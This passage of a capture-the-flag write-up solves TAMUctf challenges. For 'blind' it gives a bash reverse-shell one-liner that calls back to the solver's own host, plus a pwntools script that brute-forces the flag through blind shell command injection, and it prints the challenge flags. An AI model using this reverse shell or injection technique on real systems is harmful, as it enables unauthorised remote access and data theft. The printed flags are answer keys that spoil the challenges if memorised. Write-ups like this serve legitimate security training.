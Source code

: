 Extract the image from the .xz archive, then simply grep from strings.

```bash
xzdec -d WindowsXP.img.xz | strings | grep "gigem{"
```

🏁 __gigem{Ch4Nn3l_1nN3r_3Li0t_N3$$}__{:.spoiler}

## blind

> nc challenges.tamuctf.com 3424

After connecting to the socket, writing something returns a number.
From the numbers (0-OK, 1-ERR, 127-NOT_FOUND) we can guess it executes the command within a shell and retuns the status code.

First, set up a listener `nc -lvp 1337`.

`nc` isn't installed on the server since it returns the status code 127, but we can also open a reverse shell with:

```bash
/bin/bash -i > /dev/tcp/<our ip>/1337 0<&1 2>&1
```

🏁 __gigem{r3v3r53_5h3ll5}__{:.spoiler}

### Alternative method

In case the reverse shell didn't work, one could have bruteforced every char using ifs.

```python
from pwn import *
import string

conn = remote('challenges.tamuctf.com', 3424)

fmt = '[ $(head flag.txt -c {}) == "{}" ]'
chars = 6
flag = "gigem{"

while True:
    chars += 1
    for c in string.ascii_lowercase + string.digits + string.ascii_uppercase + '_}{':
        print flag+c
        conn.sendline(str.format(fmt, chars, flag+c))
        status = conn.recvline()

        if "0" in status:
            flag += c
            print flag
            if c == "}":
                exit()
            break
```
